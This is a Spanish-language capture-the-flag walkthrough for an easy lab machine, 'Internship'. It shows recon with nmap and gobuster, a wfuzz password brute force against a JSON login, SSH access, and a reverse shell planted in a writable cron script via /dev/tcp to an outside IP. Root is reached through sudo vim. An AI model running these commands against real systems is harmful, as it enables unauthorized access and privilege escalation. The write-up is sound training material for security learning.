






# Máquina: Internship

Dificultad -> Fácil

Enlace a la máquina -> 

___

## Reconocimiento

Escaneo de puertos con nmap

```shell
nmap 172.17.0.2
________________________________________________
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Obtenemos más información sobre los puertos que encontramos abiertos

```shell
nmap -sCV -p 22,80 172.17.0.2
________________________________________________
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.2p1 Debian 2+deb12u4 (protocol 2.0)
| ssh-hostkey: 
|   256 35:ff:c4:8b:c4:e1:46:12:43:b9:03:a9:cf:ec:f3:0a (ECDSA)
|_  256 23:ac:95:1e:be:33:9e:ed:14:f0:45:f6:27:51:ca:ba (ED25519)
80/tcp  open  http        Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: GateKeeper HR | Tu Portal de Recursos Humanos
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Explotación
___
Inspeccionamos la web que corre en el puerto 80:


Observamos que no funcionan los botones, así que procedemos a ver el código fuente. Parece que se está aplicando virtual hosting (gatekeeper.com).

```html
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>GateKeeper HR | Tu Portal de Recursos Humanos</title>
    <link rel="dns-prefetch" href="//gatekeeperhr.com" />
    <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@300;400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="./styles.css">
</head>
```

Asignamos manualmente la dirección IP al nombre de dominio, añadiendo la siguiente línea al archivo /etc/hosts:

```
172.17.0.2 gatekeeperhr.com www.gatekeeperhr.com
```

Recargamos la página, pero ahora con el dominio correspondiente, y los botones funcionan correctamente. Vemos un posible usuario para el inicio de sesión (mariana).



Vemos cómo se envian los datos y a que endpoint cuando iniciamos sesión. Probamos con el usuario **mariana** y la contraseña **admin**.

Vemos con las herramientas de desarrollador, presionando F12 en el navegador, en la pestaña de **Network**, en el apartado de **Headers** que la solicitud es de tipo POST y el endpoint al que apuntamos es http://www.gatekeeperhr/lab/login.php

Ahora nos movemos al apartado de Request, y vemos que el cuerpo que se envía al endpoint está en formato JSON y tiene las propiedades de **username** y **password**.

Con esta información ya podemos intentar un **ataque de diccionario** para obtener la contraseña de **mariana** (si es que el usuario existe, claro). Usaremos **wfuzz** en esta ocasión.

```shell
wfuzz -c -z file,/usr/share/wordlists/rockyou.txt -d '{"username":"mariana","password":"FUZZ"}' -H 'Content-Type: application/json' --sc 200 www.gatekeeperhr.com/lab/login.php
```

Hallamos la contraseña en la línea 26 del rockyou.txt, resultó ser **sunshine**.



Nos logueamos para ver el contenido del dashboard. Y tenemos una lista de empleados.



Vemos el código fuente de la página y nos hallamos con el siguiente comentario.

```html
<tbody id="employeeTableBody">
    <!-- Quitar los permisos SSH a los pasantes, ya terminará el tiempo de pasantía -->
</tbody>
```

Tenemos dos pasantes, **pedro** y **valentina**, y son de IT, podemos deducir que son los que tienen permisos SSH. Podemos realizar un ataque de diccionario con **hydra**, pero antes, ejecutamos un descubrimiento de directorios con **gobuster**. Hay un resultado interesante, la de /spam, vemos qué contiene.

```shell
gobuster dir -u gatekeeperhr.com -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
-------------------------------------------------------------------
/spam (Status: 301) [Size: 319] [--> http://gatekeeperhr.com/spam/]
```

Sólo es fondo oscuro, por lo que vemos el código fuente. Hallamos un texto codificado, después de pasarlo por ChatGPT nos dice que está cifrado usando ROT13.

```html
<body>
    <!-- Yn pbagenfrñn qr hab qr ybf cnfnagrf rf 'checy3' -->
</body>
```

El texto decodificado es:

```shell
La contraseña de uno de los pasantes es 'purpl3'
```

Teniendo ya, dos posibles usuarios (pedro, valentina) y una contraseña (purpl3), intentamos conectarnos por SSH. La contraseña resultó ser para el pasante **pedro**.

```shell
ssh pedro@172.17.0.2
pedro@172.17.0.2's password: purpl3
pedro@34e0296f5c5d:~$ whoami
pedro
```

También encontramos al otro pasante, valentina.

```shell
pedro@34e0296f5c5d:~$ ls -l /home
total 8
drwxrwx--- 1 pedro     pedro     4096 Feb 10 03:46 pedro
drwxrwx--- 1 valentina valentina 4096 Feb 10 03:46 valentina
```

No existen permisos asignados a nivel de sudoers de ningún tipo, no obstante, descubrimos que el usuario valentina está ejecutando un script cada 15 segundos, por lo que deducimos que existen tareas cron para dicho usuario.

```shell
pedro@34e0296f5c5d:~$ watch -n 1 ps -u valentina -f
UID          PID    PPID  C STIME TTY          TIME CMD
valenti+    4820    4816  0 15:11 ?        00:00:00 /bin/sh -c sleep 45; /opt/log_cleaner.sh
valenti+    4821    4818  0 15:11 ?        00:00:00 /bin/sh -c sleep 15; /opt/log_cleaner.sh
valenti+    4823    4821  0 15:11 ?        00:00:00 sleep 15
valenti+    4824    4820  0 15:11 ?        00:00:00 sleep 45
valenti+    4825    4817  0 15:11 ?        00:00:00 /bin/sh -c sleep 30; /opt/log_cleaner.sh
valenti+    4828    4825  0 15:11 ?        00:00:00 sleep 30
```

El script en cuestión es */opt/log_cleaner.sh*. No tenemos permisos para ejecutarlo directamente, pero tenemos permisos para su modificación.

```shell
pedro@34e0296f5c5d:~$ ls -l /opt/
total 4.0K
-rwxrw-rw- 1 valentina valentina 30 Feb  9 01:47 log_cleaner.sh
```

Añadimos la siguiente línea al script para entablarnos una **reverse shell**. En mi caso, la dirección IP es la **192.168.1.12**.

```shell
bash -i >& /dev/tcp/192.168.1.12/443 0>&1
```

Y esperamos con el puerto 443 abierto en nuestro host para entablar conexión:

```shell
nc -lp 443
```

Esperamos, y obtenemos la reverse shell.

```shell
valentina@34e0296f5c5d:~$ whoami
valentina
```

## Escalada de privilegios
--------------------------

Listamos el contenido de /home/valentina y vemos que además de la flag, existe una imagen .jpeg.

```shell
valentina@34e0296f5c5d:~$ ls
fl4g.txt  profile_picture.jpeg
```

Transferimos el archivo a nuestro host y utilizamos **steghide** para verificar si se ha aplicando esteganografía. Nos pide una *passphrase*, pero no proporcionamos ninguna, sólo presionamos *Enter*. En los resultados observamos que existe un archivo incrustado, el cual es *secret.txt*.

```shell
steghide info profile_picture.jpeg
----------------------------------
"profile_picture.jpeg":
  format: jpeg
  capacity: 2.4 KB
Try to get information about embedded data ? (y/n) y
Enter passphrase: 
  embedded file "secret.txt":
    size: 7.0 Byte
    encrypted: rijndael-128, cbc
    compressed: yes
```

Ahora, sabiendo que hay un archivo .txt en la imagen, lo extraemos.

```shell
steghide extract -sf profile_picture.jpeg
```

El contenido del .txt resultó ser el texto **mag1ck**:

```shell
cat secret.txt
mag1ck
```

Verificamos si es la contraseña para el usuario **valentina** a la vez que intentamos ver si tiene asignados permisos a nivel de sudoers.

```shell
valentina@34e0296f5c5d:~$ sudo -l
[sudo] password for valentina: mag1ck
User valentina may run the following commands on 34e0296f5c5d:
    (ALL : ALL) PASSWD: ALL, NOPASSWD: /usr/bin/vim
```

Podemos usar **vim** como el usuario **root**. La escalada de privilegios al usuario root se puede lograr con el siguiente comando:

```shell
valentina@34e0296f5c5d:~$ sudo vim -c '!/bin/bash'
root@34e0296f5c5d:/home/valentina# whoami
root
```

Finalmente, obtenemos la flag.

```shell
root@34e0296f5c5d:~# cat /root/fl4g.txt 

     |\     ____
     \ \.-./ .-' T
      \ _  _( /| | |\
    ) | .)(./ |  |  |
      |   \(   \_|_/
  (   |     \    |
 )    |  \VvV    | (
      |  |\,,\   | 
    ) |  | ^^^   |    )
   (  |  |__     |   (
 )   /      `-. _|    )
(   /          /  `\
   /          ///_ |
  /jgs       (((-|'

  _, _, ,  ,  _,  ,_  _  ___,_,
 /  / \,|\ | / _  |_)'|\' | (_,
'\_'\_/ |'\|'\_|`'| \ |-\ |  _)
   `'   '  `  _|  '  `'  `' '  
             '                 

Instagram: @purpl3_mag1ck  
TikTok: @purple_mag1ck
```